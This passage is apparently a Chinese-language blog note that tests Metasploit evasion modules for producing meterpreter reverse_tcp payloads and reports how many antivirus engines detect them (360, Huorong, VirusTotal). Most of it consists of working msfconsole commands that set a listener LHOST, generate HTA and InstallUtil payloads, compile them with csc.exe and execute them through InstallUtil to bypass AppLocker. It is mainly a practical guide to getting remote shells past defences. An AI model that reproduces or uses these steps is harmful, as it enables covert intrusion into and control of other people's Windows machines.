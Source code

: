 ![image-20220527085549361](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205270855472.png)

不打开杀软的情况下，可正常上线：

```
handler -H 192.168.174.128 -P 6666 -p windows/meterpreter/reverse_tcp
```

打开杀软，360和火绒都能查杀。

在virustotal.com上查杀率为43/69（原po为42/71）。

360：

![image-20220527085842405](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205270858477.png)

火绒：

![image-20220527085747182](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205270857265.png)

VT：

![image-20220527090002712](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205270900839.png)

### 生成hta(VT查杀率14/59)

用另外一个evasion模块`windows/windows_defender_js_hta`生成一下，360同样被杀。

```
msf6 > use windows/windows_defender_js_hta
msf6 evasion(windows/windows_defender_exe) > set filename payload1.exe
msf6 evasion(windows/windows_defender_exe) > set payload windows/meterpreter/reverse_tcp
msf6 evasion(windows/windows_defender_exe) > set LHOST 192.168.174.128
msf6 evasion(windows/windows_defender_exe) > set LPORT 6666
msf6 evasion(windows/windows_defender_exe) > run
```

但是火绒静态+行为查杀都没发现问题，可正常上线。

在virustotal.com上查杀率为14/59。不过在线查毒时显示360也没查出来，但本地测试时却是能查出来的，所以在线查杀还是不太精准的。

复现时该模块生成的可执行无法运行。

### 生成install_util(VT查杀率33/69)

evasion还提供了其他几个模块，比如`windows/applocker_evasion_install_util`

创建payload

```
msf6 > use windows/applocker_evasion_install_util
msf6 evasion(windows/applocker_evasion_install_util) > set payload windows/meterpreter/reverse_tcp
msf6 evasion(windows/applocker_evasion_install_util) > set lhost 192.168.174.128
msf6 evasion(windows/applocker_evasion_install_util) > set lport 6666
msf6 evasion(windows/applocker_evasion_install_util) > run

[+] install_util.txt stored at /Users/xysoul/.msf4/local/install_util.txt
[*] Copy install_util.txt to the target
[*] Compile using: C:\Windows\Microsoft.Net\Framework\[.NET Version]\csc.exe /out:install_util.exe install_util.txt
[*] Execute using: C:\Windows\Microsoft.Net\Framework\[.NET Version]\InstallUtil.exe /logfile= /LogToConsole=false /U install_util.exe
```


[go/meterpreter/rev_tcp>>]: set lhost 192.168.174.128
[go/meterpreter/rev_tcp>>]: set lport 6666
[go/meterpreter/rev_tcp>>]: generate